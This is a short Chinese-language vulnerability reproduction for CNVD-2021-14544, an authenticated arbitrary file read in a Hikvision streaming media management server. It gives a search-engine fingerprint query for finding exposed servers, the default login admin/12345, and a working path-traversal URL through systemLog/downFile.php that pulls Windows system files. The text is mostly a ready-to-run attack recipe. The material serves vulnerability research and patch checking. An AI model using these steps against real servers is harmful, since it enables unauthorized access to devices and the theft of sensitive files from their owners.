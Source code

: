 # 

# HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

```
HIKVISION 流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登录页面如下， 默认账号密码为 `admin/12345`

![image-20220519172955875](./images/202205191729966.png)

访问如下URL下载`C:/windows/system.ini`文件

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```


